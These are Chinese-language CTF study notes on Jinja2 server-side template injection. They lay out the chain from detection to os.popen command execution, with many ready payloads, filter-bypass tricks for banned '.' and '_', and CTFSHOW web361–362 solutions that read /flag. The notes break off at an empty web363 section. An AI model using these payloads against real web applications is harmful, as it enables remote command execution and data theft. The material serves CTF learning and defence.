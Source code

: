 # ssti

---

[TOC]

## 利用链（总结ing）

### 一个渐进的过程

```python
举一个例子
1. 找到注入点
2. 尝试是否是ssti漏洞 --- {{7*7}}

3.{"".__class__.__base__.__subclasses__()}

4.在众多类中中找我们可以利用的类，可以浏览器高亮找，可以用Python脚本去寻找,找到下标号

5.利用我们这个利用类，去利用他的一些函数之类东西，去带出flag
{{"".__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']("ls").read()}}
```



### os._wrap_close

```python
"".__class__.__bases__[0].__subclasses__()[..].__init__.__globals__['popen']('whoami').read()
"".__class__.__bases__[0].__subclasses__()[..].__init__.__globals__.popen('whoami').read()
```

### os类

```python
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('whoami').read()
```

### 使用__import__下的os（python2不行）

可以使用 __import__ 的 os

```
"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()
```



### \__builtins__

下有eval，__import__等的函数，可以利用此来执行命令

```python
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
```



### 直接方法

```python
{{lipsum.__globals__['os'].popen('tac ../flag').read()}}
#request对象的方法绕过

{{cycler.__init__.__globals__.os.popen('ls').read()}}
```



## 绕过方法（总结ing）

### 基类

```python
__mro__[-1] 
__base__
__bases__[0]
```

`.` 被ban

```python
1、用[]代替.
{{"".__class__}}={{""['__class']}}
2、用attr()过滤器绕过，举个例子
{{"".__class__}}={{""|attr('__class__')}}
```

`_` 被ban

```python
1、通过list获取字符列表，然后用pop来获取_，举个例子
{% set a=(()|select|string|list).pop(24)%}{%print(a)%}
2、可以通过十六进制编码的方式进行绕过，举个例子
{{()["\x5f\x5fclass\x5f\x5f"]}} ={{().__class__}}
```



---

## CTFSHOW ssti

### web361

```python
{{ "".__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']("cat /flag").read()}}
```



### web362

> 过滤了数字32

```python
//利用运算
{{ "".__class__.__base__.__subclasses__()[140-8].__init__.__globals__['popen']("cat /flag").read()}}
```

```python
{{lipsum.__globals__.__getitem__("os").popen("cat /flag").read()}}
```

```python
{{ "".__class__.__base__.__subclasses__()[94]["get_data"](0,"/flag")}}
```



### web363









> 参考文章：
>
> 